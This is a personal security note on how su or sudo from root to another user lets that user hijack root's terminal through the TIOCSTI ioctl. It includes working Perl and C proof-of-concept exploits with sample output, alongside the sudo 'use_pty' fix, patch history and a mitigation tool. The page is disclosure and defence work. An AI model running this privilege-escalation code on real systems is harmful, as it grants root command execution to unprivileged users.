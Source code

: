 
##
#
https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking
#
##

su/sudo from root to another user allows TTY hijacking and arbitrary code execution
First written 2016-10-17; Last updated 2023-03-16

back

TL;DR: Don’t run su - $USER or sudo -u $USER (unless use_pty is set) as root or $USER may inject arbitrary commands in your root shell. At least Linux, OpenBSD and FreeBSD are affected. This is not an issue when su-ing to root.

Update (2023-03-16): Even without TIOCSTI Linux virtual terminals (/dev/tty*) are still vulnerable to a similar attack using TIOCLINUX as reported by Jakub Wilk on oss-security (PoC ttyjack).

Update (2023-01-21): Linux 6.2 will add the sysctl legacy_tiocsti and build option LEGACY_TIOCSTI to globally disable TIOCSTI (default is still enabled).

Update (2021-10-05): OpenBSD removed TIOCSTI in OpenBSD 6.2 making it no longer vulnerable. Linux and FreeBSD are still vulnerable.

I regularly ran su - $USER to administrate non-privileged accounts (which often have no login shell nor password and thus SSH is no option) and debug issues. Although su-ing to other accounts may be considered bad practice by some it makes administration much more pleasant and thus motivates me to separate many tasks in a special user, creating users with only minimal access and good separation.

However I wasn’t aware that running su - $USER or sudo -u $USER allows $USER to inject arbitrary commands in my shell (running as root) and thus execute arbitrary commands. This was first reported (to my knowledge) for su in 2005 on the RedHat bug tracker, but only fixed for su -c. Debian has (as of October 2021) an open bug for su (#628843). Only su -c is fixed in Debian Jessie and later. The bug for sudo (#657784) (open since 2011) was closed in April 2021 by using use_pty in the default sudoers (see below). However, this doesn’t fix existing installations! Non-Linux systems are affected as well: The exploit below works on at least OpenBSD 6.0 and 6.1 (doas is affected as well; 6.2 and later are no longer affected) and FreeBSD 11 and later (last tested 13.0-RELEASE-p4).

There is an easy fix for sudo which is as of now not enabled by default. Add use_pty to /etc/sudoers (see below how this works):

# Prevent arbitrary code execution as your user when sudoing to another
# user due to TTY hijacking via TIOCSTI ioctl.
Defaults use_pty
Exploit
A very simple exploit was posted by Ismaël RUAU in #628843:

#!/usr/bin/perl
require "sys/ioctl.ph";
open my $tty_fh, '<', '/dev/tty' or die $!;
foreach my $c (split //, "exit\n".'echo Payload as $(whoami)'.$/) {
    ioctl($tty_fh, &TIOCSTI, $c);
}
The exploit doesn’t work on some systems. The following C version should work everywhere:

#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
int main() {
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    char *x = "exit\necho Payload as `whoami`\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
To see if you’re affected run su -s /bin/sh nobody and then run the exploit; if you see “Payload as root” then you’re affected (only /tmp/exploit is user input, the following output is caused by the exploit):

# id -u
0
# su -s /bin/sh - nobody
No directory, logging in with HOME=/
$ /tmp/exploit
exit
echo Payload as $(whoami)
$ # echo Payload as $(whoami)
Payload as root
#
Details
The problem with su and sudo is that although they change the UID of the executed process to the non-root user, the (pseudo) terminal is still that of the root user and thus accessible to the non-privileged user. The current terminal of a program is always accessible through /dev/tty. By opening this device as non-root user and then using the TIOCSTI ioctl(2) to fake user input on that terminal, the user can inject commands in the terminal. In the example exploit above first the shell running as the user is terminated (exit) and then the payload is written. After the user’s shell quits, the shell running as root reads the faked user input and executes it. There is no race condition as the input is stored in the terminal’s buffer waiting to be read.

As the original problem is access to root terminal, the fix is to allocate a new pseudo-terminal and to proxy all input from the user’s pseudo terminal to root’s terminal. An attacker can no longer issue the TIOCSTI to root’s terminal and thus no longer fake any input. sudo's use_pty does exactly that.

The implementation of such a proxy is not trivial as it requires (“arcane”) knowledge about terminals, session leaders, (fore-/background) process groups, controlling terminals, etc. Writing ptyas (see below) was a great learning experience for me and helped me understand UNIX terminals better. For more details about UNIX (pseudo) terminals read “The TTY demystified”.

Note however that even with this fix other attacks are still possible as the non-privileged user still generates output which is interpreted by the local terminal (emulator). If the terminal (emulator) has vulnerabilities (e.g. through unexpected escape codes) they can be triggered and possibly exploited by the non-privileged user. If possible, non-privileged users should never have access to a (pseudo) terminal of a more privileged user.

ptyas
ptyas is a minimal reimplementation of su which uses a proxy pseudo terminal as explained above to prevent this issue. It can only run as root and will either spawn the user’s default shell or run the given command. It has no advantages over sudo with the use_pty option, but it’s less complex and doesn’t require another setuid binary on the system. ptyas is written in C99 and should run on most POSIX systems which also provide ppoll(). Tested on Linux, OpenBSD and FreeBSD. Feedback is welcome.

back

Last updated 2023-03-16

Impressum Datenschutzerklärung
